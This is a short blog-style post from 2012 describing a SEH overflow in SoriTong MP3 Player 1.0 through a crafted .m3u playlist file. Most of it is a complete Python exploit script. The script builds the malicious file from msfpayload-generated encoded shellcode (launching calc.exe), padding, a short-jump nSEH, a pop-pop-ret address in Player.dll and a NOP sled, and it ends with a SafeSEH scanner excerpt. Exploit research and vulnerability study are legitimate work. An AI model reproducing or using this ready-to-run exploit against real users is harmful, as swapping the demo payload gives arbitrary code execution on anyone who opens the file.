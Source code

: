 SoriTong MP3 Player .m3u File Parsing SEH Overflow
==================================================
date: 02/Sep/2012
summary: SoriTong MP3 Player SEH overflow via a pop-pop-return overwrite.
tags: code, exploit

SoriTong MP3 Player version 1.0 is prone to a SEH overflow vulnerability. Processing specially-crafted `.m3u` file could trigger a SEH overwrite that could be leveraged further to gain arbitrary code execution. The exploit for this vulnerability has been documented at [EDB: 8624](http://www.exploit-db.com/exploits/8624/)

Here is a complete rewrite of this exploit:

```python
from struct import *

file = "edb8624.m3u"

# msfpayload windows/exec CMD=calc.exe EXITFUNC=seh R | msfencode -b '\x00\x0a\x0d' -t perl
# [*] x86/shikata_ga_nai succeeded with size 227 (iteration=1)

calc = ("\xbb\x34\x46\x73\x3a\xda\xd2\xd9\x74\x24\xf4\x5a\x31\xc9" +
"\xb1\x33\x31\x5a\x12\x83\xea\xfc\x03\x6e\x48\x91\xcf\x72" +
"\xbc\xdc\x30\x8a\x3d\xbf\xb9\x6f\x0c\xed\xde\xe4\x3d\x21" +
"\x94\xa8\xcd\xca\xf8\x58\x45\xbe\xd4\x6f\xee\x75\x03\x5e" +
"\xef\xbb\x8b\x0c\x33\xdd\x77\x4e\x60\x3d\x49\x81\x75\x3c" +
"\x8e\xff\x76\x6c\x47\x74\x24\x81\xec\xc8\xf5\xa0\x22\x47" +
"\x45\xdb\x47\x97\x32\x51\x49\xc7\xeb\xee\x01\xff\x80\xa9" +
"\xb1\xfe\x45\xaa\x8e\x49\xe1\x19\x64\x48\x23\x50\x85\x7b" +
"\x0b\x3f\xb8\xb4\x86\x41\xfc\x72\x79\x34\xf6\x81\x04\x4f" +
"\xcd\xf8\xd2\xda\xd0\x5a\x90\x7d\x31\x5b\x75\x1b\xb2\x57" +
"\x32\x6f\x9c\x7b\xc5\xbc\x96\x87\x4e\x43\x79\x0e\x14\x60" +
"\x5d\x4b\xce\x09\xc4\x31\xa1\x36\x16\x9d\x1e\x93\x5c\x0f" +
"\x4a\xa5\x3e\x45\x8d\x27\x45\x20\x8d\x37\x46\x02\xe6\x06" +
"\xcd\xcd\x71\x97\x04\xaa\x80\x66\x95\x26\x14\xd1\x4c\x0b" +
"\x78\xe2\xba\x4f\x85\x61\x4f\x2f\x72\x79\x3a\x2a\x3e\x3d" +
"\xd6\x46\x2f\xa8\xd8\xf5\x50\xf9\xba\x98\xc2\x61\x13\x3f" +
"\x63\x03\x6b")

junk = "\xCC"*260
nseh = pack ('<I', 0x909032EB)         # short jump 50B
cseh = pack ('<I', 0x1001CFDA)         # p/p/r 1001CFDA Player.dll
nops = "\x90"*80

sploit = junk+nseh+cseh+nops+calc

try:
    handle = open (file, 'w')
    handle.write (sploit)
    handle.close ()
    print "[+] sploit ready: " + file + " (" + str (len (sploit)) + "B)"
except:
    print "[-] exception!"

'''
/SafeSEH Module Scanner, item 33
 SEH mode=/SafeSEH OFF
 Base=0x10000000
 Limit=0x10094000
 Module Name=Player.dll
'''
```
